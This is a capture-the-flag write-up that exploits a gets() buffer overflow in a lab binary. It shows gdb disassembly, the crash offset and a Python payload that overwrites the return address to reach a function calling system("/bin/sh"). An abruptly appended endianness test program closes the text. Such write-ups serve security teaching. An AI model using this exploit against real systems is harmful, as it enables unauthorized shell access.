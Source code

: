 # Level 1

first we check the escutable file we found our binary wait an input and exit the program.

we use gdb to disassemble the main function and that what we got:

```c
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

in the line <+16> they call the [gets](https://linux.die.net/man/3/gets) function.

## Bugs

**Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters getss() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.**

we assume that's a BufferOverFlow vulnerability then we try to give it a long chaine of character, we got a segFault.

```c
(gdb) run
Starting program: /home/user/level1/level1
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppaaaabbbbcccczzzz

Program received signal SIGSEGV, Segmentation fault.
0x7a7a7a7a in ?? ()
(gdb)
```

chr(0x7a7a7a7a) = zzzz

we found that after 76 characters we got a segfault.

Now we need to find a way to redirect the return address to get the bash.

after runing **infos functions** :

```c
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

## **Run Function:**

```c
Dump of assembler code for function run:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

in Line <+53> they call system we check the address 0x8048584 and we got: system("/bin/sh")

```
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

now we must use the Run Function address instead of the return address so we use this python program

```python
padding = "A"*76
returnAddr = "\x44\x84\x04\x08"
print padding+returnAddr
```

we save the output of this program in file (tmp) and we passe this file like this:

> cat tmp - | ./level1

Here is an example of a C program that can be used to test the endianness of a system:

```c
#include <stdio.h>
#include <stdint.h>

int main() {
  uint32_t value = 0x12345678;
  uint8_t *ptr = (uint8_t *)&value;

  if (*ptr == 0x78) {
    printf("Little-endian\n");
  } else {
    printf("Big-endian\n");
  }

  return 0;
}

```
